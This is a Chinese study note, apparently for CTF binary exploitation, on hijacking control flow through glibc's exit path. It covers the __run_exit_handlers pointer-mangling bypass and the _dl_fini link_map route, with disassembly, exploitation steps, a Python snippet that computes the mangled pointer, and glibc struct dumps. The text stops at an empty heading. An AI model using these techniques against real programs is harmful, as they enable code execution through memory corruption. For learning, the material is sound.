








参考：

* [exit()分析与利用](https://www.anquanke.com/post/id/243196)
* [elf之link map攻击](https://xz.aliyun.com/news/15504)


**适用场合**：目前为止（到glibc2.41）仍然适用。由于所有程序结束时都会隐式调用exit函数，故在Full RELRO，且无法利用malloc_hook和free_hook，或其他方法利用起来比较麻烦的情况下，可以通过exit的几种利用方法控制执行流。

> [!caution]
>
> 不能是调用`_exit`结束，否则直接调用`syscall`结束程序，而不是libc的`exit`函数结束程序。

# __run_exit_handles

## 原理

在exit函数地址下断点，调试到`__run_exit_handlers+304`处：

> 无符号情况下认准`ror r*x, 0x11; xor r*x, qword ptr fs:[0x30];`这个特征



```asm
pwndbg> x /32i 0x7ffff7c47a40
=> 0x7ffff7c47a40 <__run_exit_handlers+304>:	mov    rcx,QWORD PTR [rax+0x18]
   0x7ffff7c47a44 <__run_exit_handlers+308>:	mov    r8,QWORD PTR [rax+0x20]
   0x7ffff7c47a48 <__run_exit_handlers+312>:	mov    QWORD PTR [rax+0x10],0x0
   0x7ffff7c47a50 <__run_exit_handlers+320>:	mov    rax,rcx
   0x7ffff7c47a53 <__run_exit_handlers+323>:	mov    ecx,r13d
   0x7ffff7c47a56 <__run_exit_handlers+326>:	ror    rax,0x11
   0x7ffff7c47a5a <__run_exit_handlers+330>:	xor    rax,QWORD PTR fs:0x30
   0x7ffff7c47a63 <__run_exit_handlers+339>:	xchg   DWORD PTR [rbx],ecx
   0x7ffff7c47a65 <__run_exit_handlers+341>:	cmp    ecx,0x1
   0x7ffff7c47a68 <__run_exit_handlers+344>:	jg     0x7ffff7c47b48 <__run_exit_handlers+568>
   0x7ffff7c47a6e <__run_exit_handlers+350>:	mov    esi,r14d
   0x7ffff7c47a71 <__run_exit_handlers+353>:	mov    rdi,r8
   0x7ffff7c47a74 <__run_exit_handlers+356>:	call   rax
```

将`initial+0x18`处的指针循环右移0x11位，与`fs:[0x30]`处的随机数异或得到解密后的函数指针，之后将`initial+0x20`作为参数，调用该指针处的函数，此处`initial+0x18`和`fs:[0x30]`均为可读可写页

## 利用步骤

1. 泄露libc基址，得到`initial+0x18`和`fs:[0x30]`的地址

2. 泄露`fs:[0x30]`处的随机数，不能泄露但能任意写的情况下可以将`fs:[0x30]`处写0

3. 计算并覆盖`initial+0x18`为p_hash

   ```python
   # rol((p ^ key), 0x11) 
   p_hash = ((p ^ key)<<0x11)&0xffffffffffff8000
   p_hash += (p ^ key)>>0x2f
   ```

4. 覆盖`initial+0x20`为参数

5. 程序结束或调用`exit`结束，完成利用

## Tips

1. **确定`fs:[0x30]`随机数地址**
   * `canary`：获得canary的值
   * `search -t qword <canary>`：找到`fs:[0x28]`处的canary地址
   * canary后0x8的位置即为exit函数中异或使用的随机数



2. **确定exit_handler指针位置**

可以直接`search -t qword 4`搜到`initial+0x10`的位置：



# _dl_fini

`_dl_fini`函数的功能是在程序结束之前按一定顺序调用所有已加载对象的析构函数。

## 原理

大致逻辑结构如图：



### 结构体

1. **`_rtld_global`**: `_rtld_global` 是一个全局结构体，主要用于存储动态链接器在运行时的全局状态信息。

   ```c {hide=true}
   pwndbg> ptype _rtld_global
   type = struct rtld_global {
       struct link_namespaces _dl_ns[16];
       size_t _dl_nns;
       __rtld_lock_recursive_t _dl_load_lock;
       __rtld_lock_recursive_t _dl_load_write_lock;
       __rtld_lock_recursive_t _dl_load_tls_lock;
       unsigned long long _dl_load_adds;
       struct link_map *_dl_initfirst;
       struct link_map *_dl_profile_map;
       unsigned long _dl_num_relocations;
       unsigned long _dl_num_cache_relocations;
       struct r_search_path_elem *_dl_all_dirs;
       struct link_map _dl_rtld_map;
       struct auditstate _dl_rtld_auditstate[16];
       unsigned int _dl_x86_feature_1;
       struct dl_x86_feature_control _dl_x86_feature_control;
       Elf64_Word _dl_stack_flags;
       _Bool _dl_tls_dtv_gaps;
       size_t _dl_tls_max_dtv_idx;
       struct dtv_slotinfo_list *_dl_tls_dtv_slotinfo_list;
       size_t _dl_tls_static_nelem;
       size_t _dl_tls_static_used;
       size_t _dl_tls_static_optional;
       void *_dl_initial_dtv;
       size_t _dl_tls_generation;
       struct dl_scope_free_list *_dl_scope_free_list;
       list_t _dl_stack_used;
       list_t _dl_stack_user;
       list_t _dl_stack_cache;
       size_t _dl_stack_cache_actsize;
       uintptr_t _dl_in_flight_stack;
       int _dl_stack_cache_lock;
   }
   ```

2. **`_dl_ns`**: `_dl_ns` 是 `_rtld_global` 结构中的一个`struct link_namespaces`类型的**结构体数组**，它用来管理不同的动态链接命名空间。`_dl_nns`字段标识了`_dl_ns` 的有效数目。 

   ```c {hide=true}
   pwndbg> ptype _rtld_global._dl_ns
   type = struct link_namespaces {
       struct link_map *_ns_loaded;
       unsigned int _ns_nloaded;
       struct r_scope_elem *_ns_main_searchlist;
       unsigned int _ns_global_scope_alloc;
       unsigned int _ns_global_scope_pending_adds;
       struct link_map *libc_map;
       struct unique_sym_table _ns_unique_sym_table;
       struct r_debug_extended _ns_debug;
   } [16]
   ```

3. **`_ns_loaded`**: `_ns_loaded` 是 `_dl_ns` 结构体中的一个`struct link_map *`类型的指针，指向一个包含已加载共享库的**双向链表**。这个链表中每个节点通常都代表一个已加载的共享库。动态链接器使用这个链表来查找和管理已加载的库，从而支持符号解析、库卸载等操作。

   ``` c {hide=true}
   pwndbg> ptype _rtld_global._dl_ns[0]._ns_loaded
   type = struct link_map {
       Elf64_Addr l_addr; // <----- 程序加载基地址
       char *l_name;
       Elf64_Dyn *l_ld;
       struct link_map *l_next;
       struct link_map *l_prev;
       struct link_map *l_real;
       Lmid_t l_ns;
       struct libname_list *l_libname;
       Elf64_Dyn *l_info[84]; // <----- 动态链接库信息
       const Elf64_Phdr *l_phdr;
       Elf64_Addr l_entry;
       Elf64_Half l_phnum;
       Elf64_Half l_ldnum;
       struct r_scope_elem l_searchlist;
       struct r_scope_elem l_symbolic_searchlist;
       struct link_map *l_loader;
       struct r_found_version *l_versions;
       unsigned int l_nversions;
       Elf_Symndx l_nbuckets;
       Elf32_Word l_gnu_bitmask_idxbits;
       Elf32_Word l_gnu_shift;
       const Elf64_Addr *l_gnu_bitmask;
       union {
           const Elf32_Word *l_gnu_buckets;
           const Elf_Symndx *l_chain;
       };
       union {
           const Elf32_Word *l_gnu_chain_zero;
           const Elf_Symndx *l_buckets;
       };
       unsigned int l_direct_opencount;
       enum {lt_executable, lt_library, lt_loaded} l_type : 2;
       unsigned int l_dt_relr_ref : 1;
       unsigned int l_relocated : 1;
       unsigned int l_init_called : 1;
       unsigned int l_global : 1;
       unsigned int l_reserved : 2;
       unsigned int l_main_map : 1;
       unsigned int l_visited : 1;
       unsigned int l_map_used : 1;
       unsigned int l_map_done : 1;
       unsigned int l_phdr_allocated : 1;
       unsigned int l_soname_added : 1;
       unsigned int l_faked : 1;
       unsigned int l_need_tls_init : 1;
       unsigned int l_auditing : 1;
       unsigned int l_audit_any_plt : 1;
       unsigned int l_removed : 1;
       unsigned int l_contiguous : 1;
       unsigned int l_free_initfini : 1;
       unsigned int l_ld_readonly : 1;
       unsigned int l_find_object_processed : 1;
       _Bool l_nodelete_active;
       _Bool l_nodelete_pending;
       _Bool l_has_jump_slot_reloc;
       enum {lc_property_unknown, lc_property_none, lc_property_valid} l_property : 2;
       unsigned int l_x86_feature_1_and;
       unsigned int l_x86_isa_1_needed;
       unsigned int l_1_needed;
       struct r_search_path_struct l_rpath_dirs;
       struct reloc_result *l_reloc_result;
       Elf64_Versym *l_versyms;
       const char *l_origin;
       Elf64_Addr l_map_start;
       Elf64_Addr l_map_end;
       struct r_scope_elem *l_scope_mem[4];
       size_t l_scope_max;
       struct r_scope_elem **l_scope;
       struct r_scope_elem *l_local_scope[2];
       struct r_file_id l_file_id;
       struct r_search_path_struct l_runpath_dirs;
       struct link_map **l_initfini;
       struct link_map_reldeps *l_reldeps;
       unsigned int l_reldepsmax;
       unsigned int l_used;
       Elf64_Word l_feature_1;
       Elf64_Word l_flags_1;
       Elf64_Word l_flags;
       int l_idx;
       struct link_map_machine l_mach;
       struct {
           const Elf64_Sym *sym;
           int type_class;
           struct link_map *value;
           const Elf64_Sym *ret;
       } l_lookup_cache;
       void *l_tls_initimage;
       size_t l_tls_initimage_size;
       size_t l_tls_blocksize;
       size_t l_tls_align;
       size_t l_tls_firstbyte_offset;
       ptrdiff_t l_tls_offset;
       size_t l_tls_modid;
       size_t l_tls_dtor_count;
       Elf64_Addr l_relro_addr;
       size_t l_relro_size;
       unsigned long long l_serial;
   } *
   ```

4. **`l_info`**: `l_info`是`_ns_loaded` 结构体中`Elf64_Dyn *`类型的结构体**指针数组**，几乎存储了所有与动态链接管理相关的内容。

   ```c {hide=true}
   pwndbg> ptype _rtld_global._dl_ns[0]._ns_loaded.l_info
   type = struct {
       Elf64_Sxword d_tag;
       union {
           Elf64_Xword d_val;
           Elf64_Addr d_ptr;
       } d_un;
   } *[84]
   ```

   `Elf64_Dyn`结构体定义参考[elf(5) — Linux manual page](https://www.man7.org/linux/man-pages/man5/elf.5.html)：

   ```elf-manpage {hide=true}
      Dynamic tags (Dyn)
          The .dynamic section contains a series of structures that hold
          relevant dynamic linking information.  The d_tag member controls
          the interpretation of d_un.
   
              typedef struct {
                  Elf32_Sword    d_tag;
                  union {
                      Elf32_Word d_val;
                      Elf32_Addr d_ptr;
                  } d_un;
              } Elf32_Dyn;
              extern Elf32_Dyn _DYNAMIC[];
   
              typedef struct {
                  Elf64_Sxword    d_tag;
                  union {
                      Elf64_Xword d_val;
                      Elf64_Addr  d_ptr;
                  } d_un;
              } Elf64_Dyn;
              extern Elf64_Dyn _DYNAMIC[];
   
          d_tag  This member may have any of the following values:
   
                 DT_NULL
                        Marks end of dynamic section
   
                 DT_NEEDED
                        String table offset to name of a needed library
   
                 DT_PLTRELSZ
                        Size in bytes of PLT relocation entries
   
                 DT_PLTGOT
                        Address of PLT and/or GOT
   
                 DT_HASH
                        Address of symbol hash table
   
                 DT_STRTAB
                        Address of string table
   
                 DT_SYMTAB
                        Address of symbol table
   
                 DT_RELA
                        Address of Rela relocation table
   
                 DT_RELASZ
                        Size in bytes of the Rela relocation table
   
                 DT_RELAENT
                        Size in bytes of a Rela relocation table entry
   
                 DT_STRSZ
                        Size in bytes of string table
   
                 DT_SYMENT
                        Size in bytes of a symbol table entry
   
                 DT_INIT
                        Address of the initialization function
   
                 DT_FINI
                        Address of the termination function
   
                 DT_SONAME
                        String table offset to name of shared object
   
                 DT_RPATH
                        String table offset to search path for direct and
                        indirect library dependencies
   
                 DT_SYMBOLIC
                        Alert linker to search this shared object before the
                        executable for symbols
   
                 DT_REL Address of Rel relocation table
   
                 DT_RELSZ
                        Size in bytes of Rel relocation table
   
                 DT_RELENT
                        Size in bytes of a Rel table entry
   
                 DT_PLTREL
                        Type of relocation entry to which the PLT refers
                        (Rela or Rel)
   
                 DT_DEBUG
                        Undefined use for debugging
   
                 DT_TEXTREL
                        Absence of this entry indicates that no relocation
                        entries should apply to a nonwritable segment
   
                 DT_JMPREL
                        Address of relocation entries associated solely with
                        the PLT
   
                 DT_BIND_NOW
                        Instruct dynamic linker to process all relocations
                        before transferring control to the executable
   
                 DT_RUNPATH
                        String table offset to search path for direct
                        library dependencies
   
                 DT_LOPROC
                 DT_HIPROC
                        Values in the inclusive range [DT_LOPROC, DT_HIPROC]
                        are reserved for processor-specific semantics
   
          d_val  This member represents integer values with various
                 interpretations.
   
          d_ptr  This member represents program virtual addresses.  When
                 interpreting these addresses, the actual address should be
                 computed based on the original file value and memory base
                 address.  Files do not contain relocation entries to fixup
                 these addresses.
   ```

   其中重点关注：

   * `l_info[DT_FINI]`存储了动态库终止函数的偏移（`.fini`节的偏移）
   * `l_info[DT_FINI_ARRAY]`存储了`fini_array`函数指针数组的偏移
   * `l_info[DT_FINI_ARRAYSZ]`存储了`fini_array`函数指针数组的大小（**是字节数，而非数组元素个数！！！**）

   ```c
   // https://elixir.bootlin.com/glibc/glibc-2.39/source/elf/elf.h#L894
   
   #define DT_FINI		13		/* Address of termination function */
   #define	DT_FINI_ARRAY	26		/* Array with addresses of fini fct */
   #define	DT_FINI_ARRAYSZ	28		/* Size in bytes of DT_FINI_ARRAY */
   ```

   

> [!tips]
>
> `_dl_runtime_resolve`的利用也涉及到`l_info`结构体：
>
> * `l_info[DT_STRTAB]`：即 `l_info` 数组第 5 项，指向 `.dynstr` 对应的 `Dyn` 。
> * `l_info[DT_SYMTAB]`：即 `l_info` 数组第 6 项，指向 `Sym` 对应的 `Dyn` 。
> * `l_info[DT_JMPREL]`：即 `l_info` 数组第 23 项，指向 `Rel` 对应的 `Dyn` 。
>
> 

### _dl_fini函数

[`_dl_fini`](https://elixir.bootlin.com/glibc/glibc-2.39/source/elf/dl-fini.c#L25)函数嵌套两层循环:

1. 一层从`_rtld_global._dl_ns[_rtld_global._dl_nns-1]`开始反向遍历`struct link_namespaces`数组；

   > 通常`_rtld_global._dl_nns == 1`，即只有一个动态链接命名空间，故一般只有`_rtld_global._dl_ns[0]` 有值

2. 二层遍历`_rtld_global._dl_ns[i]._ns_loaded`链表，将所有`_ns_loaded`的指针按序存入`struct link_map *maps[nloaded]`数组，对`maps`进行排序后，再依次**通过`_dl_call_fini`函数调用动态链接对象的析构函数**

   > 通常`nloaded = GL(dl_ns)[ns]._ns_nloaded == 4`，即`_ns_loaded`链表中有4个节点，依次为程序本身（`l_name`字段为空字符串）、vdso、libc.so、ld-linux-x86-64.so。

相关源码如下：

```c {hide=true}
// https://elixir.bootlin.com/glibc/glibc-2.39/source/elf/dl-fini.c#L25

void
_dl_fini (void)
{
  /* Lots of fun ahead.  We have to call the destructors for all still
     loaded objects, in all namespaces.  The problem is that the ELF
     specification now demands that dependencies between the modules
     are taken into account.  I.e., the destructor for a module is
     called before the ones for any of its dependencies.

     To make things more complicated, we cannot simply use the reverse
     order of the constructors.  Since the user might have loaded objects
     using `dlopen' there are possibly several other modules with its
     dependencies to be taken into account.  Therefore we have to start
     determining the order of the modules once again from the beginning.  */

  /* We run the destructors of the main namespaces last.  As for the
     other namespaces, we pick run the destructors in them in reverse
     order of the namespace ID.  */
  for (Lmid_t ns = GL(dl_nns) - 1; ns >= 0; --ns)
  {
    ...
    unsigned int nloaded = GL(dl_ns)[ns]._ns_nloaded;
    /* No need to do anything for empty namespaces or those used for
	 auditing DSOs.  */
    if (nloaded == 0
#ifdef SHARED
	  || GL(dl_ns)[ns]._ns_loaded->l_auditing != do_audit
#endif
	  )
      __rtld_lock_unlock_recursive (GL(dl_load_lock));
    else
    {
      /* Now we can allocate an array to hold all the pointers and
         copy the pointers in.  */
      struct link_map *maps[nloaded];

      unsigned int i;
      struct link_map *l;
      assert (nloaded != 0 || GL(dl_ns)[ns]._ns_loaded == NULL);
      for (l = GL(dl_ns)[ns]._ns_loaded, i = 0; l != NULL; l = l->l_next)
      {
        /* Do not handle ld.so in secondary namespaces.  */
        if (l == l->l_real)
        {
          assert (i < nloaded);

          maps[i] = l;
          l->l_idx = i;
          ++i;

          /* Bump l_direct_opencount of all objects so that they
               are not dlclose()ed from underneath us.  */
          ++l->l_direct_opencount;
        }
      }
      assert (ns != LM_ID_BASE || i == nloaded);
      assert (ns == LM_ID_BASE || i == nloaded || i == nloaded - 1);
      unsigned int nmaps = i;

      /* Now we have to do the sorting.  We can skip looking for the
         binary itself which is at the front of the search list for
         the main namespace.  */
      _dl_sort_maps (maps, nmaps, (ns == LM_ID_BASE), true);

      /* We do not rely on the linked list of loaded object anymore
         from this point on.  We have our own list here (maps).  The
         various members of this list cannot vanish since the open
         count is too high and will be decremented in this loop.  So
         we release the lock so that some code which might be called
         from a destructor can directly or indirectly access the
         lock.  */
      __rtld_lock_unlock_recursive (GL(dl_load_lock));

      /* 'maps' now contains the objects in the right order.  Now
         call the destructors.  We have to process this array from
         the front.  */
      for (i = 0; i < nmaps; ++i)
      {
        struct link_map *l = maps[i];

        if (l->l_init_called)
        {
          _dl_call_fini (l);
  #ifdef SHARED
          /* Auditing checkpoint: another object closed.  */
          _dl_audit_objclose (l);
  #endif
        }

          /* Correct the previous increment.  */
          --l->l_direct_opencount;
      }
      ...
    }
  }
  ...
}  
```

调试时的结构体如下：

```gdb {hide=true}
pwndbg> p _rtld_global
$1 = {
  _dl_ns = {
    { // 
      _ns_loaded = 0x7ffff7ffe2e0,
      _ns_nloaded = 4,
      ...
    }, { # 15个空结构体
      _ns_loaded = 0x0,
      _ns_nloaded = 0,
      ...
      }
    } <repeats 15 times>
  },
  _dl_nns = 1,
  ...
}
```

### _dl_call_fini函数

